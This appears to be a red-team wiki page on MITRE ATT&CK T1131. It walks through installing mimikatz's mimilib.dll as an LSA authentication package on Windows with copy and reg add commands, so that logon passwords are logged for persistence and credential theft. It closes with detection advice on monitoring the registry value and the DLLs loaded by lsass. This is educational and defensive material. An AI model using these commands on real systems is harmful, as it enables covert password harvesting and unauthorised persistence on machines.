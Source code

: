 ```yaml
---
description: Persistence
---
```


# T1131: Authentication Packages

This technique abuses Windows Authentication Packages and injects a DLL into the LSA process. For this, mimikatz library mimilib.dll will be used. It will serve as a keylogger and save logon passwords next time someone will attempt a logon to the compromised host.

## Execution

Copying the evil DLL:

{% code title="attacker@victim" %}
```cpp
PS C:\> copy mimilib.dll %systemroot%\system32
```
{% endcode %}

Check which LSA Security Packages are already on the list:

{% code title="attacker@victim" %}
```bash
PS C:\> reg query hklm\system\currentcontrolset\control\lsa\ /v "Security Packages"

HKEY_LOCAL_MACHINE\system\currentcontrolset\control\lsa
    Security Packages    REG_MULTI_SZ    kerberos\0msv1_0\0schannel\0wdigest\0tspkg\0pku2u
```
{% endcode %}

Add mimilb to the Security Support Providers:

{% code title="attacker@victim" %}
```csharp
PS C:\> reg add "hklm\system\currentcontrolset\control\lsa\" /v "Security Packages" /d "kerberos\0msv1_0\0schannel\0wdigest\0tspkg\0pku2u\0mimilib" /t REG_MULTI_SZ
Value Security Packages exists, overwrite(Yes/No)? y
The operation completed successfully.
```
{% endcode %}

The below shows the screens of the Security Packages registry value with the **mimilib** injected and the kiwissp.log file with a redacted password that had been logged during the user logon:

![](../../.gitbook/assets/lsa-security-packages.png)

## Observations

It may be worth monitoring `Security Packages` value in`hklm\system\currentcontrolset\control\lsa\` key for changes. Newly added packages should be inspected:

![](../../.gitbook/assets/lsa-commandline.png)

![](../../.gitbook/assets/lsa-security-packages.png)

As expected, mimilib.dll can be observed in the list of DLLs loaded by the lsass.exe process, so as a defender, you may want to make a baseline of loaded known good DLLs of the lsass process and monitor for any new DLLs being loaded:

![](../../.gitbook/assets/lsa-loaded-dll.png)

## References

{% embed url="https://github.com/veramine/Detections/wiki/LSA-Packages" caption="" %}

{% embed url="https://adsecurity.org/?p=1760" caption="" %}

{% embed url="https://attack.mitre.org/wiki/Technique/T1131" caption="" %}

